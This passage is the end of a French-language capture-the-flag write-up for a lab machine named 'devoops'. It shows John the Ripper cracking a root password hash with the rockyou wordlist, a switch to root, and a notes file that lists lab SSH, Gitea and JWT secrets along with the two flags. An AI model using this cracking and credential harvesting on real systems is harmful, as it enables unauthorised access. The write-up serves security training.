 J'ai lancé JTR sur le hash. Ça a pris pas mal de temps. Au point que je me suis demandé si je ne devais pas trouver un autre fichier, mais je n'avais pas trop d'idées. Finalement le mot de passe est tombé :

```console
$ john --wordlist=rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Note: Passwords longer than 26 [worst case UTF-8] to 79 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
eris             (root)     
1g 0:01:52:52 DONE (2025-06-10 20:23) 0.000148g/s 1222p/s 1222c/s 1222C/s erisedyoel..erinway
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Finito :

```console
/opt/gitea/git/hana/node.git $ su 
Password: 
/opt/gitea/git/hana/node.git # cd
~ # ls
N073.7X7              R007.7x7oOoOoOoOoOoO
~ # cat *7*
ssh://runner:Bo6xQ8Vrjm7rV1tii2gfRVW6T59jgGF7novHfQrkU3tzKmzVFxE7278L5raa2x9qCihrTrD6v0fu1m61ZkxJB5Gw@devoops.hmv
ssh://hana:UYi5Moj0BQw0QrGahe7i2Bs6VcyUcQMvmqDPs8aPdy8rJqBrcgPm33hbzBbY8j0og3aHN5bqAbKpze97BCLvuhgL@devoops.hmv
ssh://root:eris@devoops.hmv

gitea://hana:saki

jwt secret:
y0u_n3v3r_kn0w_1t -> BASE58 -> 2942szKG7Ev83aDviugAa6rF

user flag:
devoooooooops! -> MD5 -> flag{03d0e150ae9fc686a827b41e1969d497}

root flag:
Debug the world -> d36u9_th3_w0r1d! -> MD5 -> flag{a834296543f4c2990909ce1c56becfba}

flag{a834296543f4c2990909ce1c56becfba}
```
